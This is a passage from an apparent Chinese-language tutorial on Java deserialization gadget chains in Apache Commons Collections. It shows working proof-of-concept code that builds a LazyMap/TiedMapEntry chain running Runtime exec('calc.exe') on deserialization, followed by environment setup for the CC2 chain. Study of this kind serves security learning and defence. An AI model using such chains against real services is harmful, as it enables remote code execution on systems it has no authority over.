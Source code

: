 ```java
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new
                        Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "calc.exe" }),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        //为了避免本地调试时触发命令执行,再构造LazyMap先用一个fakeTransformers对象,等最后要⽣成Payload的
        //时候，再把真正的 transformers 替换进去

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");//为了执行LazyMap#get方法
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");//为了执行HashMap#hash方法
        outerMap.remove("keykey");

        //将恶意的transformers替换进transformerChain类中
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        //序列化
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        //反序列化
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

## CC2

### 环境搭建

- JDK 1.7
- Commons Collections 4.0
- javassit

maven：

```java
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
<dependency>
    <groupId>org.javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.25.0-GA</version>
</dependency>
```

